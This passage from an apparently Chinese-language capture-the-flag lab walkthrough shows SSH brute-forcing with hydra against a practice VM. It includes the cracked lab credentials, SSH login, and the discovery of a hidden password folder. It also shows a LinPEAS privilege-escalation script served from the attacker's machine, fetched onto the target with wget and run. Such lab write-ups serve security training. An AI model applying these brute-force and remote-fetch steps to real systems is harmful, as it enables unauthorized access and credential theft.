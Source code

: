 ![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwE70mL15Iv2zlsHFEf9n18eTa8TRictLdM91PZ5lFl812ndjicDadP0xmg/640?wx_fmt=png)

```
[22][ssh] host: 192.168.56.112 login: janitor password: Ilovepeepee 
[22][ssh] host: 192.168.56.112 login: joeyt password: Passw0rd 
[22][ssh] host: 192.168.56.112 login: chandlerb password: UrAG0D!
```

然后我们对这几个账号都尝试进行登陆

```
ssh janitor@192.168.56.112
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEjttrC3OSc2ar5O8xEaLEwZDpgmLagx2wXKp54IIBMdnP0e3tCKPwxw/640?wx_fmt=jpeg)

只有 janitor 的家目录存在一个名为. secrets-for-putin 的文件夹，并且在其中又得到一些密码

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEicJ9zdDtibZfaG9m8VOQEwPlQvBzBKiaCrxI2sGjliczsDCwtENdnhUXYQ/640?wx_fmt=jpeg)

我们把这些密码加入到 password 文件中

同时我们在 janitor 使用 LinPEAS 来探测下可利用的点

下载地址：https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite

现在 Kali 上开启 HTTP 服务

```
python3 ‐m http.server 80
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEjoK8X7SwvVJgPqrqDDdPkuHHaFc1FdSrHjU4CMAPE6gjvLicQfoxQ5A/640?wx_fmt=jpeg)

然后在靶机上进行下载

```
wget http://192.168.56.114/linpeas.sh
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEpZVA7m8ibicWXK6ElkMHsGUa2BuxfqgWbRVAOLGluSQgibSrQQ2Y2FIMQ/640?wx_fmt=jpeg)

然后运行之后，感觉并没有什么特别的点

```
bash linpeas.sh
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwE3JFLZhfZKTmVDWthyNQtNIlicFqntzHwb8RiafSQqstQpoV63aWbjiaTA/640?wx_fmt=jpeg)

再使用 hydra 使用刚刚更新过的 password 文件进行 SSH 爆破, 可以看到多了一个 fredf 用户

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwElxbXXXRPBu0jMjEHpAqIQ1nOYPjDxAefpp8xldmiabPWeuZH4Q3pQdw/640?wx_fmt=png)

```
[22][ssh] host: 192.168.56.112 login: fredf password: B4‐Tru3‐001 
[22][ssh] host: 192.168.56.112 login: janitor password: Ilovepeepee 
[22][ssh] host: 192.168.56.112 login: joeyt password: Passw0rd 
[22][ssh] host: 192.168.56.112 login: chandlerb password: UrAG0D!
```
